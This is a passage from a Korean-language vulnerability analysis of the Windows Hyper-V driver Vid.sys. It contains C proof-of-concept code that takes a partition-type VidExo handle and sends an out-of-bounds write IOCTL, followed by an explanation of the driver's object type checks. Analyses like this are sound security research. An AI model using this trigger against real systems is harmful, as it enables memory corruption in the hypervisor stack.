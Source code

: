 ```c
	if (cap.HypervisorPresent == 0)
	{
		printf("Hypervisor is not present\n");
		return -1;
	}

	WHvCreatePartition(&prtn);

	val = 1;//processor cnt
	WHvSetPartitionProperty(prtn, WHvPartitionPropertyCodeProcessorCount, &val, sizeof(val));

	WHvSetupPartition(prtn);

	HANDLE VidExo = (HANDLE)(*((__int64*)prtn + 1) & 0xfffffffffffffffe);

	payload = malloc(OOB_SIZE);
	memset(payload, 0x0, OOB_SIZE);

	//exploit
	DeviceIoControl(VidExo, OOB_WRITE_CTL_CODE, payload, OOB_SIZE, NULL, 0, NULL, NULL);

	printf("%p\n", VidExo);

	getc(stdin);

	WHvDeletePartition(prtn);
}
```

위 코드를 보시면 `CreateFileA`나 `CreateFileW`로 함수로 `\Device\VidExo`에 대한 핸들을 얻는 것이 아닌 WHVP API를 사용해서 생성한 파티션의 핸들을 참조하여 `VidExo`의 핸들을 가져오는 것을 볼 수 있는데요? `\Device\VidExo`에 접근이 불가능한 것은 아니지만 일반적인 `CreateFile`함수 호출로 얻어지는 `VidExo`의 핸들을 사용한 `DeviceIoControl`는 `WinHvGet/SetVpState` 함수가 호출되지 않습니다.

유저모드 프로세스에서 `CreateFile`함수를 호출해서 `VidExo`의 핸들이 생성될 때 `Vid.sys`에서는 `VidExo` 오브젝트가 만들어지고 이 오브젝트에는 `Exo`와 `Prtn` 타입이 존재합니다.

`VidExopIoControlPreProcess` 함수를 확인해보면 아래와 같이 `fscontext`에 저장된 시그니처를 통해 `VidExo` 오브젝트가 어떤 타입인지 검사하는 부분이 존재합니다.

```c
	  ...
    fscontext = v11 & 0xFFFFFFFFFFFFFFFCui64;// *(DWORD*)fscontext == ' oxE'
    if ( fscontext )
    {
      if ( *(_DWORD *)fscontext != ' oxE' )
      {
        if ( *(_DWORD *)fscontext != 'ntrP' )
    ...
```

`WinHvGet/SetVpState` 함수를 호출하는 `VidExoIoControlPartition` 함수는 `VidExo` 오브젝트가 `Prtn` 타입인 경우에 호출됩니다. 일반적인 `CreateFile`함수 호출로 얻어진 `\Device\VidExo` 핸들은 `Exo` 타입이기 때문에 취약한 함수들이 호출되지 않는 거죠...

그럼 Prtn 타입의 오브젝트에 대한 핸들은 어떻게 얻을 수 있을까요?
